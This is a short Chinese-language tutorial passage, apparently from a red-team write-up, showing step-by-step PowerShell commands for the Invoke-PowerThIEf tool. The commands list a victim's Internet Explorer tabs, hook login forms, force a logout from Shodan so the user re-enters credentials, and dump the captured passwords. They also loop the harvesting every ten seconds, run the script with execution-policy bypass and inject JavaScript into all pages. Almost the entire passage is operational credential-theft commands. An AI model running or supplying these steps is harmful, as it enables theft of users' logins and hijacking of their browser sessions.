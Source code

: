 ### 2.抓取凭据

#### (1)列出所有标签

```
Invoke-PowerThIEf -action ListUrls
```

发现后台有shodan的登录页面

#### (2)开启抓取凭据的功能

```
Invoke-PowerThIEf -action HookLoginForms
```

#### (3)强制shodan账号退出登录状态

```
Invoke-PowerThIEf -action InvokeJS -BrowserIndex 525660 -Script "window.location.href = 'https://account.shodan.io/logout';"
```

等待用户重新登录

#### (4)查看抓取到的凭据

```
Invoke-PowerThIEf -action Creds 
```

这里需要注意，执行完步骤2后不能退出Powershell进程，否则无法抓取到新的凭据

如果想要自动实现以上功能，这里可以通过加循环的方法实现每隔10秒在后台抓取凭据，使用的Powershell命令如下：

```
Invoke-PowerThIEf -action HookLoginForms
while(1)
{
    Start-Sleep –s 10
    Write-host "[*] Sleep 10 seconds"
    Invoke-PowerThIEf -action Creds
}
```

执行脚本：

```
powershell -ep bypass -f Invoke-PowerThIEf.ps1
```


### 3.修改页面内容，执行JavaScript代码

针对所有页面：

```
Invoke-PowerThIEf -action InvokeJS -Script <JavaScript to run>
```
